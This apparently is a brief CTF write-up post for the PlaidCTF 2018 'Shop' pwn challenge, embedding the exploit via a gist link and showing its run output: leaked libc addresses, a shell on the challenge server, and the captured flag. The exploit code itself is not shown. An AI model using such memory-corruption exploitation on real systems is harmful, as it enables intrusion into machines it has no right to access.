 +++
title = "PlaidCTF: Shop (pwn)"
date = "2018-05-06T20:17:33+01:00"
tags = ["writeup", "ctf", "pwn"]
categories = ["writeup", "pwn"]
comments = true
highlight = true
draft = false
index = true
+++

Below you find the full exploit for PlaidCTF pwn200 task. Full write up will follow up.

<!--more-->

{{< gist segflow 8118ae58bea31f36d83671c212ec6079 >}}

And we run it:
```shell
[+] Opening connection to shop.chal.pwning.xxx on port 9916: Done
Stdout is at: 0x7f457d51d620
Stdin is at: 0x7f457d51c8e0
System is at: 0x7f457d19d390
[*] Switching to interactive mode
$ ls -la
total 24
drwxr-xr-x 2 root root  4096 May  5 01:33 .
drwxr-xr-x 5 root root  4096 May  5 01:33 ..
-rw-r----- 1 root shop    37 May  5 01:26 flag.txt
-rwxr-s--- 1 root shop 10520 May  5 01:26 shop
$ pwd
/home/shop
$ cat flag.txt
PCTF{I_w3nt_sh0pp1ng_w1th_D3_8ruj1n}
$ 
```

Flag: **PCTF{I_w3nt_sh0pp1ng_w1th_D3_8ruj1n}**